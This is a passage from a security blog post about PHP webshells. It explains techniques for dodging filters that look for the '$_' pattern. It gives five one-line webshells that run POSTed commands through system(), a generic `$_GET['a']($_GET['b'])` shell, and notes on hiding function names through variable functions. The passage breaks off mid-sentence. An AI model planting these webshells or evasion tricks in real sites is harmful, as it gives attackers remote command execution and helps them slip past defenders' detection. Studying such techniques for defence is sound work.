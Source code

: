 ```yaml
---
layout: posts
title:  Hidden in plain sight - Part 2
date:   2023-11-05
categories: stuff
---
```


# Playing with PHP

A few days ago, I published a blog post about PHP webshells, ending with a discussion about filters evasion by getting rid of the pattern `$_`. The latter is commonly used while extracting data submitted by the user, through the variables `$_GET` or `$_POST`. I presented the following five techniques, retrieving POST'ed argument, being a bash command to be executed by `system`.

_The latter could also be dynamically retrieved thanks to a [variable function](https://www.php.net/manual/en/functions.variable-functions.php)_ 

```php
//technique 1
echo system(filter_input(0, 'A'));
//technique 2
echo system(${"_"."POST"}["B"]);
//technique 3
echo system(file_get_contents("php://input"));
//technique 4
echo system(get_defined_vars()[array_keys(get_defined_vars())[1]]["C"]);
//technique 5
$x = '_'.'POST';
echo system($$x['D']);
```

However, my favourite webshell is something like `$_GET['a']($_GET['b'])` because it makes it possible to call any function that takes a single argument (string, array or null). However, as stated in the documentation:

>
>Variable functions won't work with language constructs such as echo, print, unset(), isset(), empty(), include, require and the like
>

and for some others, they cannot be dynamically called:

```php
var_dump("get_def"."ined_vars"()); //okay
var_dump(("get_defin"."ed_vars")()); //also okay
$x="get_defined_vars"; var_dump($x()); //not okay
var_dump(($x="get_defined_vars")()); //also not okay
```

_NOTE: `eval` cannot be used as variable function, since it is a language construct and not a true function_

However, PHP is really (REALLY) permissive, and it's quite easy to call most of the functions while hiding their name. Let's discuss four techniques with their own peculiarities, executing something like:
